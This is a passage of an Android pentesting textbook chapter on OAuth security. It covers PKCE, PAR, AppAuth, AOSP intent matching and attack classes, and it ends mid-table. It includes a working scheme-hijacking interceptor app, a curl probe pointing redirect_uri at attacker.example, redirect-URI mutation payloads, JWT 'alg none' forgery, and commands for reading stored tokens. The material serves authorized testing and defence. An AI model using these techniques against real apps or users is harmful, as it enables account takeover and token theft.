| `email` | `email` and `email_verified` |
| `offline_access` | Request a **refresh token**. Its presence tells you long-lived access is being requested. |
| `address`, `phone` | Self-explanatory OIDC claims |
| Anything else | Vendor-defined: `accounts.read`, `payments.write`, `https://www.googleapis.com/auth/drive` |

**Over-scoping** is asking for more than the app's function requires. It is a real finding with two
distinct impacts. First, blast radius: if the app's tokens leak — and this chapter and the next are
largely about how they leak — the attacker inherits whatever the scope allows. An app whose only
feature is showing your account balance, requesting `payments.write`, has converted an information
disclosure into a funds-transfer capability. Second, consent fatigue: users approve a wall of
permissions they cannot evaluate, which erodes the meaning of consent everywhere.

> **🔍 Pentester's Note**
> Build a two-column table for the report: every scope requested, and the specific app feature that
> requires it. Any row where the second column is empty is a finding. Then test the reverse
> direction: strip scopes from the `/authorize` request one at a time and see whether the app still
> functions — if it works fine without `payments.write`, the request for it was gratuitous, and you
> have demonstrated it rather than asserted it.
>
> Also check for **scope escalation at the token endpoint**: try adding scopes to the
> `refresh_token` grant that were not in the original authorisation. RFC 6749 §6 says the requested
> scope on a refresh must not exceed the original grant. Servers that forget this let you widen your
> own access without any user interaction, which is a serious finding.

### 3.13 Pushed Authorization Requests and other hardening

RFC 9126 (**PAR**, Pushed Authorization Requests) closes the front channel almost entirely. Instead of
putting parameters in the browser URL, the client POSTs them to a `/par` endpoint over the back
channel and receives a one-time `request_uri`. The browser request then contains only `client_id` and
that opaque `request_uri`.



The value: parameters cannot be tampered with in the browser, cannot leak through history or
`Referer`, and the `redirect_uri` is fixed before the user ever sees a page — which kills a whole
family of redirect-manipulation attacks in one move. If you find PAR in use, note it as a positive; if
the AS advertises `require_pushed_authorization_requests: true` in discovery, that is a mature
deployment.

Related hardening you may encounter, with one-line summaries:

| Mechanism | Spec | What it adds |
|---|---|---|
| PAR | RFC 9126 | Parameters move to the back channel |
| JAR (JWT-Secured Authorization Request) | RFC 9101 | The request itself is a signed JWT |
| DPoP | RFC 9449 | Sender-constrained tokens — see [46-Tokens](../46-Tokens/README.md) |
| mTLS-bound tokens | RFC 8705 | Tokens bound to a client TLS certificate |
| FAPI 2.0 | OpenID Foundation | A profile combining PAR + PKCE + sender constraining, used in open banking |

### 3.14 AppAuth-Android — the reference implementation

AppAuth-Android is the OpenID Foundation's certified client library and the thing you should be
recommending in every remediation. It implements RFC 8252 correctly by construction: Custom Tabs by
default, PKCE always on, `state` and `nonce` generated and validated, and an `AuthState` object that
manages token refresh.

Its architecture, and the classes you will meet in JADX:

| Class | Role |
|---|---|
| `AuthorizationServiceConfiguration` | Endpoints; `fetchFromIssuer()` performs discovery |
| `AuthorizationRequest.Builder` | Builds `/authorize`; **generates the code_verifier automatically** |
| `AuthorizationService` | Launches the Custom Tab; performs the token exchange |
| `AuthorizationResponse` / `AuthorizationException` | Parsed callback |
| `TokenRequest` / `TokenResponse` | The `/token` exchange |
| `AuthState` | Serialisable holder of the current tokens — **this is the JSON blob you will find in SharedPreferences** |
| `ClientAuthentication` | `NoClientAuthentication` for public clients; `ClientSecretBasic`/`ClientSecretPost` for confidential ones |
| `RedirectUriReceiverActivity` | The manifest-declared activity that catches the redirect |

A minimal, correct integration:

```kotlin
// Android / Kotlin — a correct AppAuth flow. Full runnable version in examples/
private lateinit var authState: AuthState
private lateinit var authService: AuthorizationService

private fun startLogin() {
    AuthorizationServiceConfiguration.fetchFromIssuer(
        Uri.parse("https://login.example.com")
    ) { config, ex ->
        if (config == null) { Log.e(TAG, "discovery failed", ex); return@fetchFromIssuer }

        val request = AuthorizationRequest.Builder(
            config,
            BuildConfig.OAUTH_CLIENT_ID,                          // public client, no secret
            ResponseTypeValues.CODE,                              // authorisation code, never token
            Uri.parse("https://login.example.com/android/callback") // verified App Link
        )
            .setScopes("openid", "profile", "accounts.read")      // least privilege
            .setNonce(AuthorizationRequest.Builder.generateRandomState())
            .build()                                              // PKCE S256 + state: automatic

        authService = AuthorizationService(this)
        startActivityForResult(authService.getAuthorizationRequestIntent(request), RC_AUTH)
    }
}

override fun onActivityResult(rc: Int, res: Int, data: Intent?) {
    if (rc != RC_AUTH || data == null) return
    val resp = AuthorizationResponse.fromIntent(data)
    val err  = AuthorizationException.fromIntent(data)
    authState = AuthState(resp, err)                              // state is validated inside AppAuth
    if (resp == null) { Log.e(TAG, "authorization failed", err); return }

    // The library attaches the code_verifier it generated. It never left the process.
    authService.performTokenRequest(
        resp.createTokenExchangeRequest(),
        NoClientAuthentication.INSTANCE
    ) { tokenResp, tokenEx ->
        authState.update(tokenResp, tokenEx)
        persistSecurely(authState.jsonSerializeString())          // see 46-Tokens for "securely"
    }
}
```

> **🔍 Pentester's Note**
> `authState.jsonSerializeString()` is the string you are hunting for on disk. It is a JSON object
> containing `accessToken`, `refreshToken`, `idToken`, `accessTokenExpirationTime`, and the full
> configuration. If it is in a plain `SharedPreferences` XML file, you have your storage finding in
> the same breath as your OAuth review:
> ```bash
> # adb shell as root
> grep -rl "refreshToken" /data/data/com.example.bank/shared_prefs/
> cat /data/data/com.example.bank/shared_prefs/*.xml
> ```
> AppAuth being present is a good sign for the *protocol*; it says nothing about *storage*. The two
> reviews are independent, and teams routinely get one right and the other wrong.

---

## 4. Source Code Walkthrough (AOSP)

OAuth itself is a network protocol, not an AOSP subsystem. What *is* in AOSP — and what decides
whether an OAuth redirect reaches the right app — is intent resolution and domain verification. This
section traces the redirect from the browser's `302` to your activity's `onCreate`, through real AOSP
code, because that path is where the Android-specific vulnerability lives.

### 4.1 The redirect's journey through the platform



Every arrow in that diagram is code you can read.

### 4.2 The files that matter

| Concern | AOSP path | What you learn |
|---|---|---|
| Intent filter matching | `frameworks/base/services/core/java/com/android/server/IntentResolver.java` | The bucketing by scheme/host/path and how candidate lists are built |
| The filter itself | `frameworks/base/core/java/android/content/IntentFilter.java` | `match()`, `matchData()`, `MATCH_CATEGORY_SCHEME` and friends |
| URI parsing | `frameworks/base/core/java/android/net/Uri.java` | How `Uri.parse` handles malformed input — relevant to redirect_uri tricks |
| Activity start & chooser | `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` | Where a multi-match becomes a chooser |
| Domain verification (API 31+) | `frameworks/base/services/core/java/com/android/server/pm/verify/domain/` | `DomainVerificationService`, `DomainVerificationManager` — the App Links state machine |
| Package parsing | `frameworks/base/core/java/android/content/pm/parsing/` (varies by release) | How `autoVerify` and `<data>` elements become in-memory structures |
| Custom Tabs (AndroidX, not AOSP) | `androidx.browser.customtabs.CustomTabsIntent` | It is *just* an `ACTION_VIEW` intent with extras — see below |

> **⚠️ Warning on AOSP paths**
> Android's package-manager code has been restructured several times (the `parsing` and
> `pm/verify/domain` trees in particular moved between Android 11, 12 and 13). Treat the paths above as
> "where to start looking on a recent AOSP checkout" and confirm on https://cs.android.com/ for the
> exact release you are testing. Never quote a line number in a report.

### 4.3 `IntentFilter.matchData` — why any app can claim your scheme

The core of custom-scheme hijacking is a handful of lines of ordinary Java. Conceptually
`IntentFilter` holds parallel lists of the schemes, authorities and paths declared in the manifest,
and matching walks them:

```java
// frameworks/base/core/java/android/content/IntentFilter.java — illustrative excerpt
public final int matchData(String type, String scheme, Uri data) {
    final ArrayList<String> types = mDataTypes;
    final ArrayList<String> schemes = mDataSchemes;

    if (types == null && schemes == null) {
        return ((type == null && data == null) ? MATCH_CATEGORY_EMPTY : NO_MATCH_DATA);
    }
    if (schemes != null) {
        if (schemes.contains(scheme != null ? scheme : "")) {
            match = MATCH_CATEGORY_SCHEME;
        } else {
            return NO_MATCH_DATA;
        }
        // ... then authority and path matching, raising `match` to
        // MATCH_CATEGORY_HOST / MATCH_CATEGORY_PATH as they succeed
    }
    // ...
}
```

Notice what is **absent**. There is no check of who declared the scheme, no signature comparison, no
uniqueness constraint, no registry lookup. `schemes.contains(scheme)` is a string comparison against
a list built from a manifest that any APK can write. That single line is why RFC 8252 says a native
app's authorisation code must be protected by PKCE rather than by the redirect mechanism.

Compare this with the https path, where `PackageManagerService` consults
`DomainVerificationService`, which holds state derived from an actual network fetch of
`assetlinks.json` and a comparison against the APK's signing certificate. That is a cryptographic
check against a value the attacker cannot control — which is exactly the difference in the table in
[3.10.2](#3102-app-links--verified-https-redirects--the-secure-option).

### 4.4 What a Custom Tab actually is

Developers often imagine Custom Tabs as a special embedded browser component. They are not. Reading
`androidx.browser.customtabs.CustomTabsIntent` shows that a Custom Tab is an ordinary
`Intent(ACTION_VIEW, uri)` with a bundle of extras, sent to a browser package that advertises support
for the Custom Tabs service:

```java
// androidx.browser.customtabs.CustomTabsIntent — illustrative
public static final String EXTRA_SESSION = "android.support.customtabs.extra.SESSION";
public static final String EXTRA_TOOLBAR_COLOR = "android.support.customtabs.extra.TOOLBAR_COLOR";
// ...
public final Intent intent;   // action = ACTION_VIEW

public void launchUrl(Context context, Uri url) {
    intent.setData(url);
    ContextCompat.startActivity(context, intent, startAnimationBundle);
}
```

That is the entire security story, and it is a good one: because it is a normal activity start into
the **browser's** process, the app gets no handle on the resulting window. There is no `WebView`
object, no `CookieManager`, no `evaluateJavascript`. The isolation is provided by the Android app
sandbox ([21-App-Sandbox](../21-App-Sandbox/README.md)), which is a kernel-enforced UID boundary, not
a library API contract. A library cannot be "bypassed" into leaking the password because the library
never had it.

> **🔬 Under the Hood**
> The `EXTRA_SESSION` binder token is what lets the app receive *navigation callbacks*
> (`onNavigationEvent`: started, finished, failed) and pre-warm the browser. It is worth knowing that
> these callbacks tell the app **when** navigation happened and give it a coarse event code — they do
> **not** give it the URL of intermediate navigations or any page content. A frequent developer
> misunderstanding is that Custom Tabs "leak" the flow to the app; they do not leak anything that
> matters. The one genuinely useful signal for an attacker-controlled app is timing, which is not a
> credential.

### 4.5 Tracing a redirect end to end on a live device

You can watch every step of section 4.1 happen:

```bash
# host — terminal 1: watch the activity manager resolve and start components
adb logcat -c
adb logcat -v threadtime ActivityTaskManager:I ActivityManager:I '*:S'
```

```bash
# adb shell — terminal 2: who claims this scheme, right now?
cmd package query-activities -a android.intent.action.VIEW -d "exampleapp://oauth/callback"
```

```bash
# adb shell — terminal 3: the App Links verification state, authoritatively
pm get-app-links com.example.bank
dumpsys package domain-preferred-apps
dumpsys package com.example.bank | sed -n '/Activity Resolver Table/,/Service Resolver Table/p'
```

`cmd package query-activities` is the single most useful command in this chapter. It asks
`PackageManagerService` exactly the question the browser will ask, and prints every activity that
would be offered. If it returns two entries, the redirect is hijackable and you have your evidence
without writing a line of code.

---

## 5. Security Perspective

### 5.1 How attackers abuse OAuth on Android

#### Attack 1 — Authorisation code interception via scheme hijacking

**Prerequisites:** the ability to get an app installed on the victim's device (a sideloaded APK, a
Play Store app with an innocuous purpose, or a second app by the same "developer"), and a target that
uses a custom URI scheme redirect.

**Method.** Declare an intent filter for the victim app's redirect scheme. Wait for the user to log
in. Capture the `code`. Redeem it.

The malicious manifest is four lines:

```xml
<!-- Attacker app AndroidManifest.xml -->
<activity android:name=".Stealer" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:scheme="exampleapp" android:host="oauth" />
    </intent-filter>
</activity>
```

```java
// Attacker app — Stealer.java
public class Stealer extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        Uri u = getIntent().getData();
        Log.w("STOLEN", "code=" + u.getQueryParameter("code")
                      + " state=" + u.getQueryParameter("state"));
        // A real attacker exfiltrates rather than logs, then forwards the intent
        // to the real app so the victim notices nothing.
        finish();
    }
}
```

Full lab material, including the "forward it onward so the victim sees a normal login" refinement, is
in [`labs/lab-03-scheme-hijack.md`](labs/lab-03-scheme-hijack.md).

**Outcome:** full account takeover **if** PKCE is absent or unenforced. Nothing **if** PKCE with S256
is enforced. That binary outcome is why enforcement testing dominates this chapter.

**Severity:** Critical when it yields tokens; the *pattern alone* (custom scheme with enforced PKCE)
is Low/Informational, and you should say so rather than inflating it.

#### Attack 2 — `redirect_uri` manipulation

The authorisation server must match `redirect_uri` against a registered allow-list. RFC 6749 §3.1.2
and the Security BCP require **exact string matching**. Servers that implement something looser open
one of these doors:

| Server matching rule | Attacker input | Result |
|---|---|---|
| Prefix match | registered `https://app.example.com/cb`, send `https://app.example.com/cb.attacker.com/` | Redirect to the attacker's host |
| Subdomain wildcard `*.example.com` | `https://attacker.example.com/` — obtainable via any subdomain takeover, a user-content subdomain, or a compromised marketing site | Code sent to the attacker |
| Path traversal permitted | `https://app.example.com/cb/../../open-redirect?to=https://attacker.com` | Code forwarded through the app's own open redirect |
| Query string appended | `https://app.example.com/cb?next=https://attacker.com` where the app honours `next` | Chained open redirect |
| Fragment tricks | `https://app.example.com/cb#@attacker.com` | Parser differentials between the AS and the browser |
| Only the host is checked | `https://app.example.com@attacker.com/` | Userinfo-in-authority confusion |
| Localhost allowed in production | `http://127.0.0.1:1337/` with a listener on the victim's machine | Rarely exploitable on Android, common on desktop |

**Testing method.** Take the captured `/authorize` URL, change `redirect_uri`, and observe the
server's response before any user interaction. You do not need a victim to test this:

```bash
# host — does the AS reject an unregistered redirect_uri outright?
curl -s -i -G "https://login.example.com/authorize" \
  --data-urlencode "response_type=code" \
  --data-urlencode "client_id=android-prod-4471" \
  --data-urlencode "redirect_uri=https://attacker.example/" \
  --data-urlencode "scope=openid" \
  --data-urlencode "state=test" | head -20
```

A correct server returns an error **rendered on its own page** without redirecting (because it must
not redirect to an unvalidated URI). A vulnerable server returns a `302` to your host, or returns a
login page and only fails later — test the whole flow, because some servers validate at the token
endpoint but happily send the code to your URI first, which is already game over.

Then walk the mutation list systematically. [`scripts/redirect-uri-fuzz.py`](scripts/redirect-uri-fuzz.py)
in this chapter automates exactly this table.

**Severity:** Critical when it results in code or token delivery to an attacker-controlled host.

#### Attack 3 — `state` fixation and omission

Covered mechanically in [3.11](#311-the-state-parameter-and-csrf). As an attack: if the client does
not validate `state`, the attacker performs login CSRF and the victim ends up operating inside the
attacker's account. The impact is under-appreciated. Concretely: a victim in a document app uploads a
confidential file "to their own account"; a victim in a payment app adds a card; a victim in a
password manager saves credentials. All of it lands in the attacker's account.

**Severity:** High in any app where the user contributes data or credentials after login.

#### Attack 4 — Token leakage through Android-specific channels

Once tokens exist on the device, Android provides several ways for them to escape. This overlaps with
[46-Tokens](../46-Tokens/README.md), which owns the topic; here is the OAuth-flow-specific subset:

| Channel | Mechanism | How to test |
|---|---|---|
| Logcat | `Log.d(TAG, "resp=" + json)` in the token-exchange callback | `adb logcat --pid=$(adb shell pidof -s <pkg>)` during login, grep for `eyJ`, `access_token`, `code=` |
| Deep-link forwarding | The callback activity passes the full URI to another component or a WebView | Trace `getIntent().getData()` usage in JADX |
| `Referer` header | If the flow passes through any HTML page under the app's control, the URL containing the code can leak in `Referer` | Watch the proxy for a `Referer` containing `code=` |
| Browser history | The `/authorize` URL and, with implicit, the token, land in history | Inspect the browser profile on a test device |
| Crash reporters | The full URL or the whole `AuthState` JSON attached to a crash report | Hook the reporter, or force a crash with `am crash` and inspect the outbound payload |
| Analytics SDKs | Screen-view events including the callback URI | Proxy and watch third-party hosts during login |
| `adb backup` | `AuthState` in SharedPreferences with `allowBackup="true"` | `adb backup -f b.ab <pkg>` (where still supported) |
| Screenshots / recents | The consent screen or a token displayed in a debug view | Check for `FLAG_SECURE` on sensitive activities |

#### Attack 5 — Mix-up attacks

**Prerequisites:** a client that supports **multiple** authorisation servers (very common — "sign in
with Google, Apple, or Facebook"), and a client that does not track *which* AS a given response came
from.

**Method.** The attacker operates or controls one of the offered authorisation servers, or induces the
client to start a flow with an attacker-controlled AS. The client starts a flow with the honest AS
but is manipulated into sending the resulting **code** to the attacker's token endpoint — or,
inverted, the client receives a response from the attacker's AS and redeems it at the honest AS's
token endpoint using the honest client credentials.



**The defence** is the `iss` parameter in the authorisation response (RFC 9207), or per-AS distinct
redirect URIs, or simply tracking the AS identity alongside the `state` value. On Android, the
practical test is: does the app use a *single* `state`/verifier store shared across providers, and
does it record which provider a pending request belongs to? In JADX, look for a single
`pendingAuthRequest` field rather than a map keyed by issuer.

**Severity:** High, but the prerequisites are demanding. Report it where the app genuinely supports
multiple IdPs and does not bind responses to issuers.

#### Attack 6 — "Sign in with X" backend token confusion

This is the most commercially significant OAuth finding in mobile applications, and it is covered
mechanically in [3.12](#312-openid-connect-oidc--authentication-done-properly). As an attack:



**How to test it without an attacker infrastructure.** You do not need a victim. Register your own
client at the same IdP, sign in as *yourself*, take the `id_token` (whose `aud` is your test client),
and present it to the target's `/social-login` endpoint. If the backend accepts it and creates a
session, `aud` is not being validated — and the same technique with a real victim yields their
account. Demonstrating it against your own account is sufficient proof and keeps you inside a sane
rules-of-engagement boundary.

A second variant is worth testing in the same session: send an `id_token` with `alg` set to `none` and
the signature stripped, and an `id_token` whose payload you edited without re-signing. Backends that
"decode" rather than "verify" accept both. See
[46-Tokens §5](../46-Tokens/README.md) for the full JWT attack catalogue.

**Severity:** Critical. Pre-authentication account takeover of any user whose email address you know.

#### Attack 7 — Refresh token theft

The refresh token is the highest-value artefact in the app's storage because of its lifetime. Theft
paths are the storage paths in [46-Tokens](../46-Tokens/README.md): plaintext SharedPreferences, a
world-readable file, a backup, an exported content provider, an unprotected `AccountManager` entry, or
memory. The OAuth-side questions are: is it rotated, is reuse detected, is it bound to the device, and
does `/revoke` actually work?

### 5.2 How developers misuse OAuth

| Misuse | Why they do it | Consequence |
|---|---|---|
| Embedding a client secret | Copied from a server-side quickstart; the SDK's config file has a `client_secret` field | The secret is public; if the AS treats the client as confidential, its security model is fiction |
| Using a `WebView` | Brand control over the login screen | The app can harvest IdP credentials; users are trained to accept it |
| Custom scheme with no PKCE | The library defaulted to it years ago and nobody revisited | Code interception yields account takeover |
| Generating `state` with `Math.random()` or `System.currentTimeMillis()` | "It just needs to be different" | Predictable; CSRF protection is void |
| Validating `state` only when present | Defensive coding gone wrong: `if (state != null && !state.equals(saved)) fail;` | Omitting `state` bypasses the check entirely |
| Sending the `id_token` as a bearer token to APIs | The two tokens look alike | Audience confusion; APIs accept tokens minted for other purposes |
| Decoding a JWT without verifying it | `JSON.parse(atob(jwt.split('.')[1]))` is a one-liner; verification is not | Forged tokens accepted |
| Requesting every scope up front | Avoids a second consent later | Blast radius; consent fatigue |
| Never calling `/revoke` at logout | Logout clears local storage and returns to the login screen; it "works" | Stolen tokens remain valid after the user believed they logged out |
| Hard-coding endpoints instead of using discovery | Simpler | Key rotation and endpoint migration break the app; sometimes leads to pinning the wrong JWKS |
| Treating `email` as the account key | It is human-readable | Account takeover through an IdP that does not verify email |

### 5.3 Real vulnerability classes and how they show up

The style guide forbids inventing CVE identifiers, and OAuth bugs are usually *implementation* bugs in
a specific product rather than platform CVEs, so this section describes **classes** with the
fingerprints you can look for. Where a class has a well-known public name, it is given.

| Class | Public name if any | Fingerprint in a capture |
|---|---|---|
| Code interception on mobile | The motivating attack for RFC 7636 | Custom scheme redirect + no `code_challenge` |
| Implicit-grant token leakage | — | `response_type=token`, token in the fragment |
| Open redirect chaining | — | A `redirect_uri` on the app's own domain that itself redirects |
| Unverified `id_token` at a backend | "Sign in with X" audience confusion | An API endpoint accepting a raw `id_token` body parameter |
| PKCE downgrade | — | Server accepts `code_challenge_method=plain` or a missing `code_verifier` |
| Refresh token without rotation | — | The same refresh token works twice |
| Scope escalation on refresh | — | `/token` with `grant_type=refresh_token&scope=<more>` succeeds |
| Device-code phishing | "Device code phishing" | A device grant with weak user-code display |
| Cross-app credential harvesting | — | OAuth flow rendered in an in-app `WebView` |
| Mix-up | "IdP mix-up attack" | Multi-IdP client with no issuer binding |

### 5.4 OWASP MASVS / MASTG mapping

| Control | Relevance to this chapter |
|---|---|
| **MASVS-AUTH-1** — the app uses secure authentication and authorisation protocols and follows the relevant best practices | The whole chapter. Concretely: authorisation code + PKCE, RFC 8252 conformance |
| **MASVS-AUTH-2** — the app performs local authentication securely | Cross-reference [48-Biometrics](../48-Biometrics/README.md) |
| **MASVS-AUTH-3** — sensitive operations require step-up / additional authentication | Scope and `acr`/`amr` handling, re-authentication before high-value actions |
| **MASVS-NETWORK-1** — encrypted network traffic | The authorisation and token endpoints must be TLS; test for cleartext fallback |
| **MASVS-PLATFORM-1** — the app uses IPC mechanisms securely | The redirect intent filter, exported callback activities |
| **MASVS-PLATFORM-2** — WebViews are configured securely | The WebView-based auth finding |
| **MASVS-STORAGE-1/2** — sensitive data is not stored or exposed unnecessarily | Where the `AuthState` blob ends up |
| **MASVS-CODE-4** — the app validates and sanitises untrusted input | The callback URI is attacker-controllable input |

Relevant MASTG test areas: "Testing Authentication and Session Management", "Testing OAuth 2.0 Flows"
(the MASTG has a dedicated OAuth section built directly on RFC 8252), and "Testing Deep Links".

### 5.5 How pentesters test it — the methodology in one place

The detailed commands are in [section 7](#7-dynamic-analysis). The *order* is the important part,
because each step feeds the next.

```mermaid
flowchart TD
    P1["1 Recon<br/>Pull the APK · read the manifest ·<br/>fetch the discovery document"] --> P2
    P2["2 Observe<br/>Proxy the flow · capture /authorize,<br/>the redirect, and /token"] --> P3
    P3["3 Classify<br/>Which grant? Which redirect type?<br/>Custom Tab or WebView?"] --> P4
    P4["4 Decode<br/>Every parameter, every token.<br/>Build the parameter table."] --> P5
    P5["5 Tamper<br/>redirect_uri · state · scope ·<br/>response_type · code_challenge_method"] --> P6
    P6["6 ENFORCE<br/>Replay /token WITHOUT code_verifier.<br/>THE critical test."] --> P7
    P7["7 Hijack<br/>Install a competing-scheme app.<br/>Prove interception."] --> P8
    P8["8 Persist<br/>Where did the tokens land?<br/>Do they survive logout?"] --> P9
    P9["9 Escalate<br/>Scope escalation · refresh reuse ·<br/>id_token replay to the backend"]
```

### 5.6 How malware abuses OAuth

Malware's interest in OAuth is different from a pentester's. It is not trying to break the protocol; it
is trying to *obtain a legitimate grant* that survives password changes.

- **Consent phishing.** The malware (or a phishing page) starts a genuine OAuth flow for an
  attacker-registered client requesting broad scopes such as mail read/write and offline access. The
  user sees a real, TLS-protected, correctly-branded consent screen from their real identity provider
  and approves. The attacker now holds a refresh token. Because no password was stolen, a password
  reset does **not** revoke it — only revoking the grant does. This has been used at scale against
  enterprise mail tenants.
- **Scheme squatting.** As in Attack 1, but installed broadly and opportunistically: register a large
  set of popular apps' redirect schemes and harvest whatever arrives.
- **Accessibility-service-assisted consent.** A malicious accessibility service watches for the
  consent screen and taps "Allow" faster than the user can read it. The mitigations are the platform's
  restrictions on accessibility services and the `FLAG_SECURE`/overlay protections on consent screens.
- **Token exfiltration from other apps.** Where a target app's tokens are in world-readable storage,
  an exported provider, or `AccountManager` with a weak permission model, malware reads them directly
  rather than attacking the protocol. See [46-Tokens](../46-Tokens/README.md).

### 5.7 Forensic perspective

An examiner investigating an account compromise asks a different set of questions, and the artefacts
are usually still on the device:

| Artefact | Location | What it tells you |
|---|---|---|
| `AuthState` JSON | `/data/data/<pkg>/shared_prefs/*.xml` | Which issuer, which scopes, token issue times |
| `id_token` `iat` / `auth_time` | Decoded from the stored token | When the user last actually authenticated |
| `amr` claim | Decoded `id_token` | Which methods were used — was MFA involved at all? |
| Browser history and cookies | Browser package data | Which authorisation server sessions existed |
| `AccountManager` records | `/data/system_ce/<user>/accounts_ce.db` (root) | Which accounts and authenticators exist |
| Installed packages with matching intent filters | `pm list packages` + `cmd package query-activities` | Whether a scheme-squatting app was present |
| AS-side logs | Not on the device | Which client_id and IP redeemed which code — get these from the provider |

The single most useful forensic question in an OAuth compromise is "which `client_id` redeemed the
refresh token", and it is answerable only from the authorisation server's logs. If you are advising a
client on logging, tell them to log `client_id`, IP, user agent, and `jti`/token family for every
token issuance.

---

## 6. Reverse Engineering Perspective

### 6.1 What OAuth looks like in JADX

Your first pass is string-driven. OAuth is a protocol of well-known literals, and obfuscators rename
*identifiers*, not *string constants* used as URL parameters — because renaming them would break the
protocol.

**Strings that are always present and never obfuscated:**

```
response_type   client_id       redirect_uri    scope          state
code_challenge  code_challenge_method           code_verifier
grant_type      authorization_code              refresh_token
access_token    id_token        token_type      expires_in
/authorize      /token          /oauth2/        openid
.well-known/openid-configuration
```

```bash
# host — the ninety-second OAuth triage of an APK
jadx -d out/ app.apk
grep -rn "code_challenge\|code_verifier" out/sources/ | head
grep -rn "response_type" out/sources/ | head
grep -rn "grant_type" out/sources/ | head
grep -rn "\.well-known/openid-configuration" out/sources/ | head
grep -rn "client_secret" out/sources/ | head          # any hit is a finding
grep -rn "net.openid.appauth" out/sources/ | head     # is AppAuth in use?
```

**Interpreting the results:**

| What you find | What it means |
|---|---|
